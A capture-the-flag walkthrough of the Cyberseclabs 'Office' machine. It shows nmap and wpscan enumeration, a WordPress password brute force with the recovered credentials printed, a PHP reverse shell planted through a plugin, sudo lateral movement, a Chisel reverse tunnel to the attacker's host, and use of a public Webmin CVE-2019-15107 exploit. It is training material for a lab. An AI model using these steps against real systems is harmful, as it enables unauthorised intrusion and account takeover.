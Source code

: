 In this walkthrough, we'll go over one of the machines called ***Office*** from the challenge labs on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Office IP](officeIP.png)

Let's start the scanning process with nmap:
```bash
nmap -sTV -p- -n 172.31.3.1
```
We'll see that there are three ports open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-29 11:58 EDT
Nmap scan report for 172.31.3.1
Host is up (0.057s latency).

PORT      STATE    SERVICE          VERSION
22/tcp    open     ssh              OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:3f:6c:4e:6d:8b:dc:59:b7:cb:66:64:27:f9:22:86 (RSA)
|   256 ee:be:37:f3:75:4e:38:2a:a9:99:e0:18:1a:b8:d1:41 (ECDSA)
|_  256 7f:72:a7:29:be:30:9e:5e:aa:b9:fc:be:09:d2:8b:3a (ED25519)
80/tcp    open     http             Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.4.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dunder Mifflin &#8211; Just another WordPress site
443/tcp   open     ssl/http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=office.csl/organizationName=Dunder Mifflin/stateOrProvinceName=PA/countryName=US
| Not valid before: 2020-05-08T20:01:51
|_Not valid after:  2021-05-08T20:01:51
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
10000/tcp filtered snet-sensor-mgmt
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.52 seconds

```
Let's add this to our /etc/hosts file as follows:
```bash
172.31.3.1 office.csl
```
It looks like a WordPress site is being served on port 80:
![Office WP](office-index-html.png)

Since this is a WordPress site, we can use wpscan to scan all the plugins with `wpscan --url http://office.csl --enumerate ap --plugins-detection aggressive --max-threads 50`
![WP Plugin Scan](office-wpscan.png)

Previously, I tried to exploit the plugin ***wp-file-manager***, but that didn't go anywhere. Now, we can perform a user enumeration with the following `wpscan --url http://office.csl --enumerate u`
![WP User Enum](office-wpscan-userenum.png)

It looks like we have a user called ***dwight*** and we can try to brute force the login with this user name and the wordlist of rockyou.txt `wpscan --url http://office.csl --passwords /usr/share/wordlists/rockyou.txt --usernames dwight`
![WP Bruteforce](office-wpscan-bruteforce.png)

We have a successful hit so the found creds are:

Username | Password
--------- | ---------
dwight | cowboys1

By using the above credentials, we can successfully log into the admin panel. However, we need to download and install ***php_everywhere*** plugin for this machine. After installing the plugin, let's add a new page and then copy the PHP reverse shell from [Pentestmonkey GitHub Repo](https://github.com/pentestmonkey/php-reverse-shell) into the PHP Everywhere text box (don't forget to change the IP address and port to yours) and type "php_everywhere" in the body of the page:
![PHP Everywhere Reverse Shell](office-php-everywhere.png)
![PHP Everywhere Page Preview](office-wpscan-php_everywhere.png)

Now, start a revershell and in the WordPress site, hit "Preview". We should receive a shell back:
![Office Foothold](office-intialfoothold.png)

It looks like we are www-data and we need to perform a lateral movement to become dwight user so let's look at `sudo -l` which shows that we can run bash as dwight:
![Office Sudo -l](office-wwwdata-sudo-l.png)

We can run the following script to become dwight `sudo -u dwight /bin/bash`:
![Office Dwight](office-dwight.png)

From here, there are a few things that I check manually such as locally open ports with `netstat -tulpn`:
![Office Open Ports](office-netstat.png)

It looks like the port 10000 is open so we can forward this port back to our local Kali machine with [Chisel](https://github.com/jpillora/chisel)
1. On Kali, I started a chisel server: `./chisel_1.7.6_linux_amd64 server -p 1111 --reverse` ![Chisel Server](office-chisel-server.png)
2. On the target, I started a chisel client: `./chisel_1.7.6_linux_amd64 client 10.10.0.18:1111 R:9050:127.0.0.1:10000` ![Chisel Client](office-chisel-client.png)

When we visit http://127.0.0.1:9050/session_login.cgi, I see that Webmin is running:
![Office Webmin](office-webmin.png)

At this point, we can use Metasploit to exploit the Webmin server, but let's do it manually without Metasploit. 

We can clone the following GitHub repo from [Webmin CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107) and just run the exploit as shown below:

![Office Root](office-manual-webmin.png)
